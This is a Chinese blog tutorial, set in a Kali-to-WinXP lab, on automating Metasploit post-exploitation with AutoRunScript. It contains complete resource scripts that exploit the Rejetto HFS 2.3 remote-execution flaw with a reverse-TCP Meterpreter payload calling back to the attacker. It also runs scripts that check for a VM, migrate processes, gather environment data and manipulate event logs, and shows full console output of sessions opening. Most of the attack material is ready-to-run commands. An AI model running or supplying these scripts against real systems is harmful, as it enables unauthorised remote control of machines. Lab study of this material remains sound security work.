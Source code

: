 ```yaml
---
layout: post
category: curleyg-code-hack
title: 在Metasploit中使用AutoRunScript
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 在Metasploit中使用AutoRunScript
lock: need
---
```


# 在Metasploit中使用AutoRunScript

Metasploit提供了强大的AutoRunScript工具，可以通过收入show advanced查看AutoRunScript的选项。它可以实现自动化的后渗透测试，只需执行一次就可以获得对目标的控制权限。我们可以通过输入set AutoRunScript [script-name]来设置AutoRunScript的选项，也可以在资源脚本中直接设置，后者一次性自动完成全部渗透操作和后渗透操作。通过使用multi_script和multi_console_command模块，AutoRunScript还可以一次性运行多个后渗透脚本。下面我们来进行实战：

攻击机 kali 192.168.175.128

靶机 WinXP 192.168.175.130

注意：这里的示例中在靶机上部署了HFS 2.3，以攻击HFS2.3的漏洞为例实施的。有关如何部署HFS2.3服务，请参考《[Metasploit实战二之——对威胁建模(附加搭建CVE:2014-6287漏洞环境)](https://blog.csdn.net/l1028386804/article/details/86567192)》。

### 使用AutoRunScript选项中的multiscript模块

#### 创建自动化后渗透脚本multi_script

脚本内容如下：

```
run post/windows/gather/checkvm
run post/windows/manage/migrate
```

这里，我们将脚本multi_script保存到/root/my_scripts目录下。

这个脚本主要用于后渗透测试，实现了checkvm(检查目标系统是否运行在虚拟环境的模块)和migrate(将攻击载荷迁移到安全进程的模块)模块自动化的后渗透脚本。

#### 创建渗透脚本resource_complete

```
use exploit/windows/http/rejetto_hfs_exec
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.175.130
set RPORT 8080
set LHOST 192.168.175.128
set LPORT 2222
set AutoRunScript multi_console_command -rc /root/my_scripts/multi_script
exploit
```

这个脚本同样保存到/root/my_scripts目录下

这个脚本设置了对HFS文件服务器进行渗透所必需的所有参数，并实现了攻击的自动化，也可以是使用multi_console_command对AutoRunScript进行设置，将multi_console_command设定为-rc，可以执行对个后渗透脚本。

#### 运行渗透脚本resource_complete

```
msfconsole
msf5 > resource /root/my_scripts/resource_complete
[*] Processing /root/my_scripts/resource_complete for ERB directives.
resource (/root/my_scripts/resource_complete)> use exploit/windows/http/rejetto_hfs_exec
resource (/root/my_scripts/resource_complete)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/my_scripts/resource_complete)> set RHOST 192.168.175.130
RHOST => 192.168.175.130
resource (/root/my_scripts/resource_complete)> set RPORT 8080
RPORT => 8080
resource (/root/my_scripts/resource_complete)> set LHOST 192.168.175.128
LHOST => 192.168.175.128
resource (/root/my_scripts/resource_complete)> set LPORT 2222
LPORT => 2222
resource (/root/my_scripts/resource_complete)> set AutoRunScript multi_console_command -rc /root/my_scripts/multi_script
AutoRunScript => multi_console_command -rc /root/my_scripts/multi_script
resource (/root/my_scripts/resource_complete)> exploit

[*] Started reverse TCP handler on 192.168.175.128:2222 
[*] Using URL: http://0.0.0.0:8080/E9UzLCydhDL
[*] Local IP: http://192.168.175.128:8080/E9UzLCydhDL
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /E9UzLCydhDL
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:2222 -> 192.168.175.130:1060) at 2019-01-26 10:16:09 +0800
[*] Session ID 1 (192.168.175.128:2222 -> 192.168.175.130:1060) processing AutoRunScript 'multi_console_command -rc /root/my_scripts/multi_script'
[*] Running Command List ...
[!] Tried to delete %TEMP%\xBDTumQie.vbs, unknown result
[*] Server stopped.

meterpreter >
[*] Checking if LIUYAZHUANG is a Virtual Machine .....
[+] This is a VMware Virtual Machine
[*] Running module against LIUYAZHUANG
[*] Current server process: qQbMLQjEENOQL.exe (1592)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 1380
[+] Successfully migrated to process 1380
```

我们看到，checkvm和migrate模块都已经成功执行，目标运行在VMWare上，控制程序也已经成功迁移到了1380进程上。

#### 使用AutoRunScript选项中的multiscript模块

可以使用multiscript模块创建一个后渗透脚本

#### 创建后渗透脚本multi_scr.rc

脚本内容如下:

```
checkvm
migrate -n explorer.exe
get_env
event_manager -i
```

这里，我们同样把这个脚本保存在/root/my_scripts目录下。

#### 创建渗透脚本resource_rc

具体内容如下：

```
use exploit/windows/http/rejetto_hfs_exec
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.175.130
set RPORT 8080
set LHOST 192.168.175.128
set LPORT 2222
set AutoRunScript multiscript -rc /root/my_script/multi_scr.rc
exploit
```

#### 运行渗透脚本

```
msf5 > resource /root/my_scripts/resource_rc
[*] Processing /root/my_scripts/resource_rc for ERB directives.
resource (/root/my_scripts/resource_rc)> use exploit/windows/http/rejetto_hfs_exec
resource (/root/my_scripts/resource_rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/my_scripts/resource_rc)> set RHOST 192.168.175.130
RHOST => 192.168.175.130
resource (/root/my_scripts/resource_rc)> set RPORT 8080
RPORT => 8080
resource (/root/my_scripts/resource_rc)> set LHOST 192.168.175.128
LHOST => 192.168.175.128
resource (/root/my_scripts/resource_rc)> set LPORT 2222
LPORT => 2222
resource (/root/my_scripts/resource_rc)> set AutoRunScript multiscript -rc /root/my_script/multi_scr.rc
AutoRunScript => multiscript -rc /root/my_script/multi_scr.rc
resource (/root/my_scripts/resource_rc)> exploit

[*] Started reverse TCP handler on 192.168.175.128:2222 
[*] Using URL: http://0.0.0.0:8080/YfmEYmEV9x
[*] Local IP: http://192.168.175.128:8080/YfmEYmEV9x
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /YfmEYmEV9x
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:2222 -> 192.168.175.130:1065) at 2019-01-27 11:50:34 +0800
[*] Session ID 1 (192.168.175.128:2222 -> 192.168.175.130:1065) processing AutoRunScript 'multiscript -rc /root/my_script/multi_scr.rc'
[!] Tried to delete %TEMP%\bMXpbLteZtoos.vbs, unknown result
[*] Server stopped.

meterpreter > 
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
